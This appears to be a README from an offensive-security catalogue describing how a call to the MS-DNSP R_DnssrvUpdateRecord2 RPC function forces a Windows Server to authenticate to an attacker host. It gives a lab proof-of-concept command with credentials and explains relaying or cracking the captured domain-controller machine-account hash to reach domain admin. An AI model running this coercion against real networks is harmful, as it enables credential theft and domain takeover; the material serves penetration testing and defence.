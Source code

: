 # MS-DNSP - Remote call to R_DnssrvUpdateRecord2 (opnum 9)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvUpdateRecord2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8f50ae96-d87f-4fdb-8526-5a86cea25837)

+ **Function operation number**: `9`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvUpdateRecord2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8f50ae96-d87f-4fdb-8526-5a86cea25837) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvUpdateRecord2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvUpdateRecord2(
   [in]                       handle_t               hBindingHandle,
   [in]                       DWORD                  dwClientVersion,
   [in]                       DWORD                  dwSettingFlags,
   [in, unique, string]       LPCWSTR                pwszServerName,
   [in, unique, string]       LPCSTR                 pszZone,
   [in, string]               LPCSTR                 pszNodeName,
   [in, unique]               PDNS_RPC_RECORD        pAddRecord,
   [in, unique]               PDNS_RPC_RECORD        pDeleteRecord
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvUpdateRecord2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8f50ae96-d87f-4fdb-8526-5a86cea25837